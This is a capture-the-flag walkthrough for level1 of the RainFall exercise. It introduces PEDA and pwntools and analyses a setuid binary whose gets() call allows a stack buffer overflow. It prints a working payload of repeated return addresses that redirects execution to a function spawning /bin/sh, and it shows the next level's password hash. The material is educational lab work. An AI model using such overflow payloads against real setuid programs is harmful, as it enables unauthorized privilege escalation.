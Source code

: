 # Level 1

## Introduction

This is an alternative solution that serves as an introtuction to `PEDA` and `pwntools`.
- `PEDA` is an extension to GDB which colorizes and add information
- `pwntools` is a CTF framework and exploit development library

We will first interact with the binary using `PEDA` and then discover how to use `pwntools`

## Setup
We find a binary file at the root of the user **`level1`** named *`./level1`*.

We run
```bash
git clone https://github.com/longld/peda.git /etc/peda
```
and
```bash
pip3 install pwntools
```

To analyze the binary file we copy peda in the vm with `scp` *(OpenSSH secure file copy)*.
```bash
scp -r -P 4243 /tmp/peda level1@localhost:/tmp
```

### PEDA

We start an ssh connection
```bash
ssh -p 4243 level1@localhost
```

And after using /home/user/level1/.pass as the password, we open GDB on /home/user/level1/level1.
In order to use `PEDA` we have to manually change the source in gdb to peda.py that we copied.
```bash
> gdb /home/user/level1/level1
(gdb)> source /tmp/peda/peda.py
```

## Binary Analysis

### Main function

On the `PEDA` prompt we need to run a couple of commands to analyze the binary.
In order to develop an exploit, we want to understand the behaviour of the program.

We start by looking at the `main` function
![disassembled main](../docs/level1.peda.main.png)

We notice 2 interesting things:
- the program uses `gets()` function, which is known to be prone to buffer overflow
- the program seems to do nothing else

In this context, we know we can use a buffer overflow. By writing past the size of the buffer in which `gets()` writes, we will overwrite the memory used to store the address of the next instruction after the return of the function `main`.

*Smashing The Stack For Fun And Profit* contains wonderful explanations on how the stack works.

Before trying to copy *Smashing The Stack For Fun And Profit*, we run `info functions` in gdb.

### Run function

![info functions](../docs/level1.peda.info_functions.png)

From all of the symbols listed, `main` and `run` are the only functions writen in the code. All other functions are either imported from a library or functions added by the compiler like `frame_dummy` (feel free to read more about it, this is out of the scope of this walkthrough).

We will run a few commands to analyse the `run()` function
```bash
pdisas run
x/1s 0x8048570
x/1s 0x8048584
```

![run function](../docs/level1.peda.run.png)

Let me explain.
First, we disassemble `run` with `pdisas` (colored version of `disas` => alias to `disassemble`).
We notice a call to the function `fwrite()`.

When looking at the `man` for the function, we know its first argument is the address of the string to write, and thus the element in `eax` when the function is called.

We see that `eax` contains an addresse, so we will use gdb `x` command to examine the data at this address (0x8048570). We specify that it is one string with `/1s` and we get "Good... Wait what?\n", not very useful.

The same logic for `system` leads us to read the address in `esp`, where we get `"/bin/sh"`.

We kno that `run()` prints on stdout and then calls a shell.

### Source

The equivalent program in C would be:
```C
#include <stdio.h>
#include <stdlib.h>

void run() {
    FILE *stdout_ptr = stdout;

    // Print the message "Good... Wait what?\n" to the standard output
    fwrite("Good... Wait what?\n", sizeof(char), 17, stdout_ptr);

    // Execute the "/bin/sh" shell command
    system("/bin/sh");
}

int main(int argc, const char **argv, const char **envp)
{
    char buffer[??]; // Buffer to hold user input
    
    gets(buffer); // Reading input from the user

    return 0;
}
```

### Permissions
As we can see in the permissions of the executable file, the binary `./level1` is executed with the privileges of the user **level2**, the owner of the file.
```bash
level1@RainFall:~$ ls -l level1 
-rwsr-s---+ 1 level2 users 5138 Mar  6  2016 level1
```

## Exploit

We now know:
- the binary has user **level2** privileges
- the function `run()` calls `system("/bin/sh")`
- the function `main()` is vulnerable to buffer overflow

Our objective is to insert as a return address for the `main()` function, the address of the first instruction in `run()`.

### First Solution

The string version of the address `0x08048444` has to be in little endian.
It gives `"\x44\x84\x04\x08"`.

We will try to overwrite the `ret` which is after the `frame pointer`, both placed after the buffer in the memory (wonderful explanations in *Smashing The Stack For Fun And Profit*).

A naive implementation could be:
```bash
$ ( printf "\x44\x84\x04\x08\x44\x84\x04\x08\x44\x84\x04\x08\x44\x84\x04\x08\x44\x84\x04\x08\x44\x84\x04\x08\x44\x84\x04\x08\x44\x84\x04\x08\x44\x84\x04\x08\x44\x84\x04\x08\x44\x84\x04\x08\x44\x84\x04\x08\x44\x84\x04\x08\x44\x84\x04\x08\x44\x84\x04\x08\x44\x84\x04\x08\x44\x84\x04\x08\x44\x84\x04\x08\x44\x84\x04\x08\x44\x84\x04\x08\x44\x84\x04\x08\x44\x84\x04\x08\x44\x84\x04\x08\x44\x84\x04\x08\x44\x84\x04\x08\x44\x84\x04\x08\x44\x84\x04\x08\x44\x84\x04\x08\x44\x84\x04\x08\x44\x84\x04\x08\x44\x84\x04\x08\x44\x84\x04\x08\x44\x84\x04\x08\x44\x84\x04\x08\x44\x84\x04\x08\x44\x84\x04\x08\x44\x84\x04\x08\x44\x84\x04\x08\x44\x84\x04\x08\x44\x84\x04\x08\x44\x84\x04\x08\x44\x84\x04\x08\x44\x84\x04\x08\x44\x84\x04\x08\x44\x84\x04\x08\x44\x84\x04\x08\x44\x84\x04\x08\x44\x84\x04\x08\x44\x84\x04\x08\n" ; cat ) | ./level1
Good... Wait what?
```

We are lucky, it worked. One of the addresses ended up as the return address of the `main()` function.
We can print the flag.
```bash
cat /home/user/level2/.pass
53a4a712787f40ec66c3c26c1f4b164dcad5552b038bb0addd69bf5bf6fa8e77
```

<details>
<summary>Why weird `cat` in the command-line?</summary>
<br>
Because we ran the program with the input coming from a pipeline, the input is redirected to the `stdin` of the program. So, when the program calls for `system("/bin/sh")`, it immediately executes the shell without waiting for further input, and all it finds on the `stdin` is `EOF` so it closes the shell.
To work around this issue we can keep the `stdin` open with the call to `cat`.
</details>

### Best Solution
